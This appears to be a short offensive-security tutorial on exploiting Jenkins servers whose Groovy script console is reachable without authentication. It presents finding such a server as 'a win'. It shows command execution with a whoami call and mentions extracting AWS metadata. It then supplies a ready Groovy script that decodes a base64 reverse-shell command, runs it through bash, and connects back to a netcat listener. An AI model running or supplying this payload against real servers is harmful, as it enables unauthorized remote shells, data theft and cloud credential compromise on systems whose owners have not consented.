


Let's start by explaining a bit about Jenkins servers and the script console.
Jenkins is an open-source automation server that enables developers to build, test, and deploy their software continuously.
The Script Console (/script) is a powerful Jenkins feature that allows administrators to execute Groovy scripts directly on the Jenkins server with full system access.
Once you find a server that allows you to visit the /script console without authentication, it's a win. From the console you can execute commands and extract sensitive data or information.
Examples:

By using "whoami".execute().text you can see that the command whoami got executed, this is a clear indication that we can run commands on the server.

As you can see in the image above, you can also extract AWS metadata information.
You can also get a reverse shell, but the script is a bit different from a normal command. I will show you a Groovy script that you can use to get a reverse shell on the system.
def encodedCmd = "Your reverse shell encoded with base64"
def cmd = ["bash", "-c", "echo " + encodedCmd + " | base64 -d | bash"]
try {
def process = cmd.execute()
println "Reverse shell command executed"
println "Check your listener for connection..."
// Don't wait for this process as it should connect back
} catch (Exception e) {
println "Error: " + e.message
}All you have to do now is start a netcat listener to catch the reverse shell.
The exposed script console is one of the most critical Jenkins vulnerabilities, providing direct access to the underlying system!